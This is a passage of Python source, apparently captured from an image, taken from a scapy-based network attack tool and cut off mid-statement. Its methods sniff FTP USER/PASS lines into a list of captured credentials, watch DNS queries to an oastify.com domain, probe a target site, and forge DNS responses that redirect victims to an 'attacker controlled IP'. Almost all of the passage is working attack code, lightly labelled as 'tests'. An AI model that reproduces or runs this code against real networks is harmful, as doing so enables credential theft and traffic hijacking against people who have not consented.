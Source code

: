 ```python
        # Track DNS queries to our target domain
        if "oastify.com" in query:
            print(f"🌐 Target DNS query: {source_ip} -> {query}")
            
            # Test DNS response manipulation
            self.test_dns_spoofing(packet)
    
    def analyze_ftp_traffic(self, packet):
        """Extract FTP credentials"""
        if packet.haslayer(scapy.Raw):
            data = packet[scapy.Raw].load.decode(errors='ignore')
            
            if data.startswith('USER ') or data.startswith('PASS '):
                credential_info = {
                    'timestamp': time.time(),
                    'source_ip': packet[scapy.IP].src,
                    'target_ip': packet[scapy.IP].dst,
                    'protocol': 'FTP',
                    'data': data.strip()
                }
                self.captured_credentials.append(credential_info)
                print(f"📁 FTP credential: {data.strip()}")
    
    def test_target_site_interaction(self, packet):
        """Test interaction with target site"""
        try:
            # Send test request to verify connectivity
            response = requests.get(self.target_site, timeout=5)
            print(f"✅ Target site test successful: HTTP {response.status_code}")
            
            # Log the interaction
            interaction_data = {
                'timestamp': time.time(),
                'source_packet_ip': packet[scapy.IP].src,
                'test_response_code': response.status_code,
                'response_time': response.elapsed.total_seconds()
            }
            
            return interaction_data
            
        except Exception as e:
            print(f"❌ Target site test failed: {e}")
            return None
    
    def test_dns_spoofing(self, packet):
        """Test DNS spoofing capabilities"""
        try:
            # Create spoofed DNS response
            spoofed_ip = "192.168.1.50"  # Attacker controlled IP
            
            if packet.haslayer(scapy.DNSQR):
                # Build spoofed response
                spoofed_response = (
                    scapy.IP(dst=packet[scapy.IP].src, src=packet[scapy.IP].dst) /
                    scapy.UDP(dport=packet[scapy.UDP].sport, sport=packet[scapy.UDP].dport) /
                    scapy.DNS(
                        id=packet[scapy.DNS].id,
                        qr=1, aa=1, qd=packet[scapy.DNS].qd,
                        an=scapy.DNSRR(
                            rrname=packet[scapy.DNSQR].qname,
                            ttl=10,
                            rdata=spoofed_ip
                        )
```